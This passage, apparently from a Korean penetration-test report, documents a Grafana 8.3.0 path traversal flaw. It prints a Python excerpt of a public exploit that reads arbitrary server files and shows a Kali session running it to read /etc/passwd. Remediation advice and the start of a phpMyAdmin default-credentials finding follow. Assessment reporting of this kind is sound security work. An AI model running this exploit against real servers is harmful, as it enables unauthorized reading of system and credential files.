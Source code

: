 ```python
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
```
#### 개념 증명
점검자는 칼리 리눅스 내 `searchsploit` 도구를 사용하여 Grafana 8.3.0 디렉토리 경로 탐색 및 임의의 파일 읽기 익스플로잇 코드를 확보했다. 이후, 익스플로잇 코드를 실행하여 익스플로잇 성공을 확인했다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ python3 50581.py -H http://172.31.157.1:3000
Read file > /etc/passwd

                            [...]
```

#### 대응 방안
 - Grafana 웹 애플리케이션을 최신 버전으로 업데이트 한다.

 - Grafana default 계정 및 패스워드를 임의의 값으로 변경한다.

 - 사용자의 입력값에 대한 검증을 실시하여 디렉토리 경로 탐색 패턴을 필터링 할 수 있게한다.

#### 레퍼런스
 - Grafana 최신 버전 https://grafana.com/
 - Grafana 버전 8.3.0 개념 증명 익스플로잇 https://www.exploit-db.com/exploits/50581

### 2. phpmyadmin default 계정 및 패스워드 사용
#### 취약점 개요

|정보|설명|
|----|----|
|이름|phpmyadmin default 계정 및 패스워드 사용|
|중요도|중|

